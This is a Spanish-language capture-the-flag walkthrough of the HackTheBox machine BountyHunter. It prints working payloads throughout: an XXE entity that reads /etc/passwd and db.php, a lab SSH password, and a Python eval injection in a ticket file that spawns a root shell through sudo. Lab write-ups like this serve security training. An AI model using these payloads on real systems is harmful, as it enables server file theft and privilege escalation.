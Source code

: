 ```yaml
---
title: HackTheBox - BountyHunter
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'XXE', 'Python Exploitation']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/BountyHunter/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: BountyHunter Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **XXE, Python Exploitation**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **Máquina BountyHunter**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Machines/BountyHunter/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p22,80 -sCV <IP> -oN versiones`**

    ![](/assets/images/Machines/BountyHunter/02-versions.png)

c. Visitamos el sitio web en busca de más información. En la sección de **Portal** encontramos una sistema de reportes en fase beta

![](/assets/images/Machines/BountyHunter/03-web.png)

* Al enviar un 'reporte' la información será reflejada en la página web

    ![](/assets/images/Machines/BountyHunter/04-web.png)

d. Analizamos como se tramita esta información con **Burp Suite**

![](/assets/images/Machines/BountyHunter/05-burp.png)

* La información se envía en **base64** y luego se la **urlencodea** 

    ![](/assets/images/Machines/BountyHunter/06-xml.png)

    > Información en **formato xml** enviada.

e. Probaremos un **XXE** con el fin de leer archivos del servidor

> Definimos una **entidad externa** la cual nos permitirá leer el fichero **/etc/passwd** en base64 (Para evitar problemas de representación).
{: .prompt-tip }

* Referenciamos la entidad en el campo **title** (En este campo veremos la información solicitada)

    ```xml
    <?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>test</cwe>
        <cvss>test</cvss>
        <reward>test</reward>
        </bugreport>
    ```

* Decodeamos la información devuelta y podremos ver el fichero **`/etc/passwd`**

    ```bash
    > echo -n 'cm9vdDp4OjA[DATA BASE64]' | base64 -d | grep -E 'bash$'

    root:x:0:0:root:/root:/bin/bash
    development:x:1000:1000:Development:/home/development:/bin/bash
    ```

f. En este caso, no podremos leer la clave privada id_rsa del usuario **development**. Si nos fijamos, la página web admite **php** por lo que para buscar información útil lo que podemos hacer es fuzzear por este tipo de archivos

```bash
> wfuzz -c -t 100 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://<IP BountyHunter>/FUZZ.php

<SNIP>
000000834:   200        0 L      0 W        0 Ch        "db"
```

* Vemos que existen un fichero **db.php**, pero, tiene 0 caracteres. Eso no significa que esté vacío, el código php es interpretado, por lo que no se lo ve, pero si lo llegamos a leer a través del XXE llegaremos a ver la información que este contiene.

    ![](/assets/images/Machines/BountyHunter/07-db.png)

* Obtenemos una contraseña, la cual es válida para el usuario **development** en el servicio SSH

    ```bash
    sshpass -p 'm19RoAU0hP41A1sTsq6K' ssh development@<IP BountyHunter>
    development@bountyhunter:~$
    ```

### Escalada de Privilegios 💹

a. Analizamos nuestros privilegios a nivel de sudoers.

```bash
development@bountyhunter:~$ sudo -l

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

![](/assets/images/Machines/BountyHunter/08-code.png)

* Ejecución de comandos con **eval**: [Code Injection](https://vk9-sec.com/exploiting-python-eval-code-injection/)

* Archivo **`ticket.md`**

    ```md
    # Skytrain Inc
    ## Ticket to /tmp
    __Ticket Code:__
    **39+__import__('os').system('whoami')
    ```

    ![](/assets/images/Machines/BountyHunter/09-code.png)


b. Con lo anterior en mente, podemos spawnear una shell como root

```md
# Skytrain Inc
## Ticket to /tmp
__Ticket Code:__
**39+__import__('os').system('bash')
```

```bash
development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
./ticket.md
Destination: /tmp
root@bountyhunter:/home/development#
```